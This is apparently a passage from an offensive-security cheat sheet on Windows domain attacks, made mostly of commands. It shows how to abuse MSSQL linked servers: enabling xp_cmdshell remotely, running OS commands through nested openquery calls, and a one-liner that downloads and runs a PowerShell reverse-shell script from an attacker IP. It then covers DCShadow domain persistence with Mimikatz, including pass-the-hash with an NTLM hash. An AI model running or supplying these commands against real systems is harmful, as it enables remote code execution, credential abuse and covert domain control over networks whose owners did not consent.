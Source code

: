 - Enumerating database links manually

```
PS C:\> Get-SQLServerLinkCrawl -Instance test-mssql -Verbose
OR
select * from openquery("test-sql1",'select * from master..sysservers')        # MSSQL query - Openquery() function can be used to run queries on a linked database.
OR
select * from openquery("test-sql1",'select * from openquery("test-mgmt", ''select * from master..sysservers'')')        # MSSQL query - They can be chanined together to access links within links (nested links)
```

- Enable xp_cmdshell so we can execute commands on the target server (On the target server, either xp_cmdshell should already be enabled, or if rpcout is enabled on the last node (disabled by default), xp_cmdshell can be enabled using the below command)

```
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "eu-sql"        # MSSQL query
```

- Execute commands using xp_cmdshell (output will be in the CustomQuery field)

```
PS C:\> Get-SQLServerLinkCrawl -Instance test-mssql -Query "exec master..xp_cmdshell 'whoami'"
OR
PS C:\> Get-SQLServerLinkCrawl -Instance test-mssql -Query "exec master..xp_cmdshell 'whoami'" | ft        # Better formatting
OR
PS C:\> Get-SQLServerLinkCrawl -Instance test-mssql -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.X/Invoke-PowerShellTcp.ps1'')"'        # Reverse shell
OR
select * from openquery("test-sql1", 'select * from openquery("test-mgmt", "select * from openquery("eu-sql", ""select @@ version as version;exec master..xp_cmdshell "powershell whoami)"")")')        # MSSQL query - from the initial SQL server, OS commands can be executed using nested link queries. The quotes double between the SQL select statements e.g. 1, 2, 4
```

Forest Persistence
-----------------------------------------

### DCShadow

- Use Mimikatz to start the RPC servers with SYSTEM privileges (right-click -> Run as administrator) and specify attributes to be modified, and then use a second instance of Mimikatz with enough privileges (Domain Admin or similar) to push the values (right-click -> Run as administrator -> PtH)

```
 - Mimikatz1 (RPC servers - Needs SYSTEM privileges)
mimikatz # !+
mimikatz # !processtoken
mimikatz # token::whoami        # Check if SYSTEM
mimikatz # lsadump::dcshadow /object:root1user /attribute:Description /value:="Hello from DCShadow"

- Mimikatz2 (Push - Needs Domain Admin or similar)
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:Administrator /domain:domain.local /ntlm:71d04f9d50ceb1f64de7a09f23e6dc4c /impersonate
mimikatz # lsadump::dcshadow /push
```
